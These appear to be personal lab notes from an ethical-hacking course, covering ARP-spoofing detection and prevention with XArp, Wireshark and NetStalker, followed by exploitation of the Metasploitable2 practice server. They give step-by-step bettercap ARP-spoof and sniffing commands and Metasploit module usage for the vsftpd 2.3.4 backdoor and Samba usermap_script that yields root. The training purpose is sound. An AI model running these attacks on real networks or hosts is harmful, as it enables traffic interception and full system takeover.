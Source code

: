 **Detection and Defence**

Tools: XArp
Install on the Windows VM
- Shows the IPs and MAC addresses of connected clients on the network

View network details:
```sh
ipconfig
```

```sh
arp -a
```

On our Kali machine we can run bettercap to see how XArp on the Windows machine responds.

Start bettercap
```sh
sudo bettercap -iface eth0
```

Check help menu
```sh
help
```

Get extended information on specific modules
```sh
help arp.spoof
```

Put spoof into full duplex mode so it interacts with both the access point and the Windows VM
```sh
set arp.spoof.fullduplex true
```

Manually set the target (the Windows VM)
```sh
set arp.spoof.targets <target-ip>
```

Start ARP spoof
```sh
arp.spoof on
```

In Xarp on the Windows VM the status now should change to detect the attack:

![](img/xarp01.png)

Now we can see that the ARP attack is effecting the access point or router, as well as the Windows VM. The Kali machine is also shown with a red cross. With this knowledge you can see exactly who is doing the ARP attack.
- ARP - Address Resolution Protocol

Xarp is useful when you are connected to a public Wi-Fi.

---

**Detecting attacks with WireShark**

On Windows:
Enable the settings in WireShark
- Edit Preferences > Protocols > ARP/RARP 
- Enable Detect ARP Request Storms
- Start capturing 

On Kali we can use bettercap again to start an attack:
```sh
sudo bettercap -iface eth0
```

Start net probe to discover the network
```sh
net.probe on
```

Net probe will bring up a lot of ARP requests in WireShark, on the Win VM, which could be an indicator that something malicious is happening.

Set to full duplex mode
```sh
set arp.spoof.fullduplex true
```

Set target
```sh
set arp.spoof.targets <target-ip>
```

Start spoofing
```sh
arp.spoof on
```

Optionally we can start sniffing
```sh
arp.sniff on
```

In WireShark we can get extra information by going into:
- Analysis > Expert Information

This screen will show if an ARP storm is detected. It also has a drop down menu that you can access that will show which IP is making the requests. If you look at one of the ARP packets it was also reveal the MAC address of the malicious user.

---

**Prevention**

Tools: NetStalker, npcap

1. Select network, for example ethernet
2. Click OK
3. Click scan
4. In this lab (VM) if you can't see the IP of the other machine, try changing network to NAT Network
5. Click the box for block to block the IP of the malicious user

![](img/netstalker.png)

Block will actually stop the IP from being able to use the internet and will put the device status into offline.

NetStalker also has a sniffing feature that you can use by first selecting the device in the menu.

---

**System Hacking**

All of this part is done using the intentionally vulnerable server metasploitable2.
Login credentials: msfadmin

To access the various things that the server has you can get the IP of the server and then enter it into a browser on Kali Linux.

Verify the server can be contacted on the Kali VM by utilising ping. This will verify that they are on the same netwrok.

Scanning the server with nmap to check for open ports and vulnerabilities:
```sh
nmap -T4 -A -v <target-ip>
```

**FTP**

The FTP has anonymous logging and appears to be an out of date version. After googling the version we find that metasploit has a module that installs a backdoor on the system via the out of date FTP version. 

Start metasploit
```sh
msfconsole
```

Set up the exploit
```sh
use exploit/unix/ftp/vsftpd_234_backdoor
```

Show targets
```sh
show targets
```

Set target
```sh
set TARGET <target-id>
```

Options
```sh
show options
```
- set the options as required

Set IP of target
```sh
set RHOSTS <target-ip>
```

Run exploit
```sh 
exploit
```

This gives the root user with command execution. You could now make a new user and give it root privileges and a password so you could log into the system, or anything else that you want to do. 

**SMBD**

We once again copy and paste into google to find an exploit from Rapid7:

netbios-ssn Samba smbd 3.X - 4.X exploit
- https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

Use exploit
```sh
msfconsole
```

```sh
use exploit/multi/samba/usermap_script
```

```sh
show targets
```

```sh
set TARGETS <target-id>
```

```sh
show options
```

Show and set targets may make the set RHOSTS option unnecessary. It looks like there's an option for automatic but you'd probably be better off using the set RHOSTS instead.

```sh
set RHOSTS <target-ip>
```

```sh
exploit
```
- I don't have Kali insalled at the moment so i can't check, but i think run also works here as well as typing exploit.

This again gives us access to the root user fully compromising the system. 

Check you have the root user
```sh
whoami
```










